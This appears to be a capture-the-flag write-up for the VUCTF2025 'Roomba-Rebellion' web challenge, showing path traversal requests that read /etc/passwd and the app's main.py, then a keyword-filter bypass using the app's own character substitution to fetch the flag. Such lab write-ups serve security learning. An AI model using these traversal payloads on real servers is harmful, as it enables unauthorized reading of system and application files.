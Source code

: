 # VUCTF2025 Roomba-Rebellion
In this web challenge, we are given a website where we can download log files.

![homepage](https://github.com/TSpeel/writeups/blob/main/VUCTF2025/Roomba-Rebellion/images/homepage.png)

## Initial vulnerability
The site does not seem to have any attack surface other than this download functionality. The most basic attack to try here is path traversal with a payload as follows:
```
GET /download?file=../../../etc/passwd
```
This results in the following response which shows that the path traversal worked!
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:12:14 GMT
Content-Disposition: inline; filename=passwd
Content-Type: application/octet-stream
Content-Length: 839
Last-Modified: Mon, 28 Apr 2025 00:00:00 GMT
Cache-Control: no-cache
ETag: "1745798400.0-839-2620983797"
Date: Sat, 10 May 2025 15:12:14 GMT
Connection: close

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Now we can try to see if the file system contains a flag:
```
GET /download?file=../../../flag.txt
```
The result however shows that we hit some kind of input filter:
```
HTTP/1.1 400 BAD REQUEST
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:12:27 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 32
Connection: close

Roomba Error: Hacking DETECTED!!
```
Now the challenge is clear, we have to find a way to bypass this filter.

## Failed attempts
In my initial attempts, I tried some ways to bypass generic filters. I tried url-encoding `flag.txt` to `%66%6c%61%67%2e%74%78%74`, and I also tried double url-encoding it to `%25%36%36%25%36%63%25%36%31%25%36%37%25%32%65%25%37%34%25%37%38%25%37%34`.
Both these attempts were unsuccessful. 
I then tried to see if I could somehow leak `flag.txt` through file descriptors stored in `/proc/`. In `/proc` I could find some information about the running processes, but I did not manage to leak the flag in this way.

## Leaking `main.py`
While the previous failed attempts did not result in a flag, they did result in some error messages about non-existing files, which showed that the directory we are looking in before traversing is `/app/static`.
We also already knew this is a Python application from the `Server` header in earlier responses.
These clues point to an existing `main.py` file existing in `/app/`.
We can leak this file with the following payload:
```
GET /download?file=../main.py
```
This results in the following response containing the source code:
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:08:05 GMT
Content-Disposition: inline; filename=main.py
Content-Type: text/x-python; charset=utf-8
Content-Length: 1030
Last-Modified: Sat, 10 May 2025 08:53:06 GMT
Cache-Control: no-cache
ETag: "1746867186.640631-1030-1462110110"
Date: Sat, 10 May 2025 15:08:05 GMT
Connection: close

from flask import Flask, request, send_file, render_template
import os

def filter(filename: str) -> str:
    filename = filename.replace('R', 'f')
    filename = filename.replace('O', 'g')
    filename = filename.replace('O', 'h')
    filename = filename.replace('M', 'x')
    filename = filename.replace('B', 'j')
    filename = filename.replace('A', 'k')
    return filename

app = Flask(__name__)
BASE_DIR = os.path.abspath(os.path.dirname(__file__))

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/download')
def download():
    filename = request.args.get('file', '')
    if any(keyword in filename for keyword in ['g.t', 'flag.txt', 'txt', 'flag']):
        return "Roomba Error: Hacking DETECTED!!", 400
    
    filename = filter(filename)
    file_path = os.path.join(BASE_DIR, 'static', filename)
    try:
        return send_file(file_path)
    except Exception as e:
        return f"Roomba Error: {str(e)}", 400

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

## Bypassing the filter
The leaked `main.py` file not only shows the workings of the input filter as we expected, but also contains another `filter()` function we can use to write characters to bypass the input filter.
We have to write `flag.txt` without the substrings `g.t`, `txt` and `flag` being present. We can do this by replacing `g` and `x` with `O` and `M` respectively. 
`O` and `M` will then be replaced again with `g` and `x` respectively by the `filter()` function after the input filter has been bypassed.
This leaves us with the following request to retrieve the flag:
```
GET /download?file=../flaO.tMt
```
And indeed, we successfully get the flag in the response!
```
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.11.12
Date: Sat, 10 May 2025 15:09:45 GMT
Content-Disposition: inline; filename=flag.txt
Content-Type: text/plain; charset=utf-8
Content-Length: 35
Last-Modified: Sat, 10 May 2025 08:53:06 GMT
Cache-Control: no-cache
ETag: "1746867186.640631-35-1594099722"
Date: Sat, 10 May 2025 15:09:45 GMT
Connection: close

VUCTF{REDACTED}
```
